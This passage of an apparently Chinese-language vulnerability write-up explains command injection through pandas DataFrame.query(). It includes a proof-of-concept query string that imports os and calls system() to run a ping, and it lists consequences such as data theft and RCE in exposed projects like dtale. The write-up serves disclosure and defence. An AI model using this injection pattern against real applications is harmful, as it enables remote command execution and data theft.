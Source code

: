 以下代码展示了如何滥用   
query() 方法执行任意命令：  
```
import pandas as pd

df = pd.DataFrame({'a': [1, 2, 3], 'b': ['error_details', 'confidential_info', 'normal']})

query = '@pd.core.frame.com.builtins.__import__("os").system("""ping google.com #""")'
try:
    result = df.query(query, local_dict={}, engine="python").index
except Exception as e:
    print(f'Error: {e}')
```  
  
上述代码中，攻击者利用   
query() 方法注入了以下恶意命令：  
```
@pd.core.frame.com.builtins.__import__("os").system("""ping google.com #""")
```  
  
这将触发系统命令执行（在本例中为   
ping）。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsIVBuoicicyqeotwDOPkE19Q3hcZWmwPESaMribKOjDF39oK1w3lPtM3iaicQ/640?wx_fmt=png&from=appmsg "")  
  
**漏洞影响**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnSrcNn60ZcibTxQIp7icI1YsI7B0dPpcLTmgTz4HmrFvZsqmXuYPogDbZTRYLP7EmIhTsBTpgyVaz3g/640?wx_fmt=png&from=appmsg "")  
  
  
  
在某些项目中，  
pandas.DataFrame.query() 的功能被直接暴露，例如   
man-group/dtale 项目曾因该问题被利用导致远程命令执行（RCE）。  
  
**1. 任意命令执行：**  
  
攻击者可以通过精心构造的表达式执行任意系统命令。  
  
该漏洞可能被利用来访问敏感数据、修改系统文件或运行恶意脚本。  
  
**2. 数据完整性和系统安全性受损：**  
  
如果攻击成功，数据完整性和系统的安全性可能受到严重威胁。  
  
在一些特定场景中，攻击者可能：  
  
窃取数据：  
访问系统的环境变量或机密文件。  
  
滥用资源：  
通过远程执行命令消耗服务器资源。  
  
恶意传播：  
使用命令执行漏洞进一步感染或攻击其他系统。  
  
  
  
  
  
  
